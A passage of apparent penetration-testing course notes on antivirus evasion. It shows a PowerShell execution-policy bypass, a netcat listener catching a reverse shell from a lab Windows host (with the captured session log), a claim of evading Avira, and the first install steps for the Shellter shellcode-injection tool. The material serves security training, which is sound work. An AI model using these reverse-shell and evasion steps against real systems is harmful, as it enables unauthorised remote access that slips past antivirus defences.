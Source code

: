 We could simply re-run with the 
`-ExecutionPolicy Bypass` flag OR change the execution policy globally:

1. Retrieve current policy
	`Get-ExecutionPolicy -Scope CurrentUser`
Result:
```
Undefined
```

2. Set policy to unrestricted
	`Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser`

On attack machine, set up netcat listener to catch reverse shell

`nc -lvnp 443`

Re-run powershell script

`.\bypass.ps1`

Receive reverse shell

```hlt:7
kali@kali:~$ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.50.1] from (UNKNOWN) [192.168.50.62] 64613
Microsoft Windows [Version 10.0.22000.675]
(c) Microsoft Corporation. All rights reserved.

C:\Users\offsec>whoami
whoami
client01\offsec

C:\Users\offsec>hostname
hostname
client01
```

Successful evasion of Avira.

### Automating the Process

Using: [[Shellter]] - free dynamic shellcode injection tool

##### Scenario

Bypassing Avira antivirus using Shellter.

Install Shellter on Kali:

`apt-cache search shellter`

`sudo apt install shellter

Install wine, to run this windows application

`sudo apt install wine`
